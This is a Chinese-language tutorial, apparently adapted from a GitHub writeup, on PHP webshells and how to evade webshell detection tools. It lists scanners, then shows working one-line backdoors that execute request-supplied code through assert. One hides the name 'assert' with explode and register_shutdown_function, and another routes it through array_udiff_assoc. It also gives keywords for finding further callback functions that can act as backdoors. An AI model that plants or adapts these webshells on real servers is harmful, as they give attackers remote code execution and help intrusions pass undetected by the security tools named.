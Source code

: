 # Webshell

> 文章：https://github.com/LandGrey/webshell-detect-bypass/blob/master/docs/php-webshell-detect-bypass/php-webshell-detect-bypass.md


Webshell是能够执行系统命令或功能函数，完成间谍功能的网站后门脚本。

最为常见的是PHP webshell。

## 常见检查 Webshell的工具

| 编号   | 名称                         | 参考链接                                     |
| ---- | -------------------------- | ---------------------------------------- |
| 1    | 网站**安全狗**网马查杀              | http://download.safedog.cn/download/software/safedogwzApache.exe |
| 2    | **D盾** Web查杀               | http://www.d99net.net/down/WebShellKill_V2.0.9.zip |
| 3    | **深信服**WebShellKillerTool  | http://edr.sangfor.com.cn/tool/WebShellKillerTool.zip |
| 4    | **BugScaner** killwebshell | http://tools.bugscaner.com/killwebshell/ |
| 5    | **河马专业版**查杀Webshell        | http://n.shellpub.com/                   |
| 6    | **OpenRASP** WEBDIR+检测引擎   | https://scanner.baidu.com                |
| 7    | **深度学习模型**检测PHP Webshell   | http://webshell.cdxy.me/           |



## PHP webshell

可以从功能复杂性上分为以下几类：
- 单一功能 webshell，能完成写入文件、列目录、查看文件、执行一些系统命令等少量功能。
- 逻辑木马，利用系统逻辑漏洞或构造特殊触发条件，绕过访问控制或执行特殊功能的Webshell。
- 一句话，可以在目标服务器上执行php代码，并和一些客户端(如菜刀、Cknife)进行交互的Webshell。
- 多功能，根据PHP语法，编写较多代码，并在服务器上执行，完成大量间谍功能的Webshell(大马)。

### 查杀现状

根据一句话木马原理，我们知道必须要在服务器上执行客户端发来的字符串形式的PHP代码。

脚本要将字符串(或文件流)当作PHP代码执行，目前主要会使用以下函数：

- ```eval()```, PHP 4, PHP 5, PHP 7+ 均可用，接受一个参数，将字符串作为PHP代码执行
- ```assert()```	PHP 4, PHP 5, PHP 7.2 以下均可用，一般接受一个参数，php 5.4.8版本后可以接受两个参数
- 正则匹配类,	preg_replace/ mb_ereg_replace/preg_filter等
- 文件包含类	include/include_once/require/require_once/file_get_contents等


上述方法要逃脱检查机制的检查，需要方法来隐藏上面的函数机。但是随着攻防对抗的升级，较传统的字符串拆分、变形、进制转换、运算变换等躲避Webshell查杀的效果已经大大降低。

在一些情况下，通过可以携带参数的PHP回调函数来创造后门的技术，来实现绕过检测软件的一句话木马后门。

拿出来曾经披露过的一个回调函数后门函数"register_shutdown_function"做测试，发现虽然D盾、深信服的工具没有发觉到"register_shutdown_function"加 "assert"的变形，但是安全狗还是察觉到了。

```php
<?php
$password = "LandGrey";
$ch = explode(".","hello.ass.world.er.t");
register_shutdown_function($ch[1].$ch[3].$ch[4], $_REQUEST[$password]);
?>
```


安全厂商会建立自己的恶意函数库，凡是网络上披露过的可用作后门的回调函数，都可能在其中，而且很大概率上会被检测出来。

经过收集，发现网络上50多个已披露出来的可用作后门的回调函数和类中，有部分函数仍然可以用来绕过Webshell查杀软件。

### 查找可做后门的回调函数
去PHP官网查阅函数手册，查找可以用作后门的PHP回调函数，根据实际经验，利用下面五个关键词，能提高查找到拥有后门潜质的PHP回调函数的效率：

- ```callable```
- ``` mixed $options```
- ```handler```
- ```callback```
- ```invoke```

除此之外，PHP扩展中也有些合适的回调函数，不过可能通用性不强.

## 绕过传统检测

披露过的```array_udiff_assoc()```函数构造一个免杀一句话。

函数定义：

```array array_udiff_assoc ( array $array1 , array $array2 [, array $... ], callable $value_compare_func )```

根据定义，可以构造代码：

```array_udiff_assoc(array("phpinfo();"), array(1), "assert");```

相应的一句木马脚本：
```php
#array_udiff_assoc.php：

<?php
/**
* Noticed: (PHP 5 >= 5.4.0, PHP 7)
*
*/
$password = "LandGrey";
array_udiff_assoc(array($_REQUEST[$password]), array(1), "assert");
?>
```

